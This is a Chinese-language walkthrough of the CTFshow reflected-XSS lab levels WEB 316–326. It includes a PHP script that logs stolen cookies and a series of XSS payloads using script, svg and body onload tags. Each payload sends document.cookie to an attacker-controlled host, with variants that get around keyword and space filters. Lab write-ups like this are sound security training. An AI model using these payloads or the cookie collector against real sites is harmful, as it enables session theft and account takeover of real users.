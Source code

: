 ```yaml
---
{"dg-publish":true,"title":"CTFshow_XSS_反射型","dg-path":"安全/靶场/CTFshow_XSS_反射型.md","permalink":"/安全/靶场/CTFshow_XSS_反射型/","dgPassFrontmatter":true}
---
```


# WEB 316

![Pasted image 20240816151725.png](/img/user/picture/Pasted%20image%2020240816151725.png)
这题是反射型XSS来获取管理员cookie，我们在输入框里面输入的内容会存到网页中并生成一个连接，当这个链接🔗生成时后台的管理员也会访问，这里应该时模拟的是我们诱导管理员访问攻击链接

首先测试一下xss
`<script>alert(1)</script>`

发现他这里就直接可以注入![Pasted image 20240816152148.png](/img/user/picture/Pasted%20image%2020240816152148.png)
![Pasted image 20240816152236.png](/img/user/picture/Pasted%20image%2020240816152236.png)


接下载需要在服务器上创建一个文件来接收cookie信息
~~这里我尝试过用xss平台和在自己电脑上搭建，但是都不行，怀疑是后台没有办法访问到xss平台和我的电脑ip，有可能是防火墙的原因？我也不是很清楚~~

```php
# xss.php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```
接下来构造攻击payload
```
<script>document.location.href="http://<ip>/xss.php?cookie="+document.cookie</script>
```

![Pasted image 20240816152831.png](/img/user/picture/Pasted%20image%2020240816152831.png)

就接收到了flag



# WEB 317

使用上一关的payload已经不能用，他这一题是过滤了`script`，所以我们尝试换一个标签

构造测试payload
```
<svg onload=alert("xss");>
```

![Pasted image 20240816201658.png](/img/user/picture/Pasted%20image%2020240816201658.png)
发现可以注入，则构造payload
```
<svg onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```
得到flag
![Pasted image 20240816201753.png](/img/user/picture/Pasted%20image%2020240816201753.png)

#  WEB 318、319

上一关payload可解

```
<svg onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```


# WEB 320

上一关的payload不可用，我们先换一个标签试一下
这一关开始应该是过滤了空格

```
<body/onload=alert("xss");>
```
![Pasted image 20240816203052.png](/img/user/picture/Pasted%20image%2020240816203052.png)

发现可以，我们尝试获取flag

```
<body/onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```

![Pasted image 20240816203202.png](/img/user/picture/Pasted%20image%2020240816203202.png)



# WEB 321

上一关payload可解

```
<body/onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```



# WEB 322

这一题有点坑，竟然过滤了关键词`xss`，md，服了
```
<body/onload=alert("hellokongyu");>
```


![Pasted image 20240816204436.png](/img/user/picture/Pasted%20image%2020240816204436.png)

我们还要修改一下服务器的文件名
```
<body/onload=document.location.href="http://<ip>//get.php?cookie="+document.cookie;>
```



得到flag
![Pasted image 20240816204709.png](/img/user/picture/Pasted%20image%2020240816204709.png)


# WEB 323、324、325、326

上一关payload可解
```
<body/onload=document.location.href="http://<ip>//get.php?cookie="+document.cookie;>
```


注意326好像是过滤了`alert`
